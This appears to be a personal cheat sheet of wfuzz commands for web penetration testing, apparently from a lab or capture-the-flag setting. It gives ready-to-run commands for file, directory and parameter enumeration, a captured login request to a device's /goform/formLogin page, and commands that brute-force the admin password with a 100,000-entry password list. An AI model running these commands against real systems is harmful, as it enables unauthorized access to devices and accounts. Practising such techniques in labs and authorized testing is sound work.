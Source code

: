 # Wfuzz

export URL="http://zda:80/FUZZ"

File Discovery
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 301,404,403 "$URL"

Directory Discovery
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 403,404 "$URL" 

Parameter Discovery - check for files on the webserver that can be used maliciously
export URL="http://zda:80/index.php?FUZZ=data"

fuzzing parameter values on a target web app
fuzzing the "fpv" parameter with a common wordlist 

wfuzz -c -z file,/usr/share/seclists/Usernames/cirt-default-usernames.txt --hc 404,301 http://zda:80/index.php?fpv=FUZZ


Fuzz the password in Burp


POST /goform/formLogin HTTP/1.1
Host: 192.168.233.45
Content-Length: 64
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.233.45
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.233.45/index.asp
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

HtmlOnly=true&Login=admin&Password=dawg&loginButton=Submit+Login


RUn this command

wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=dawg" http://192.168.233.45/index.asp

you can restrict file size of th erequest to remove erronious responses wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404  -d "Login=admin&Password=FUZZ" --hh 229 http://192.168.233.45:80/goform/formLogin
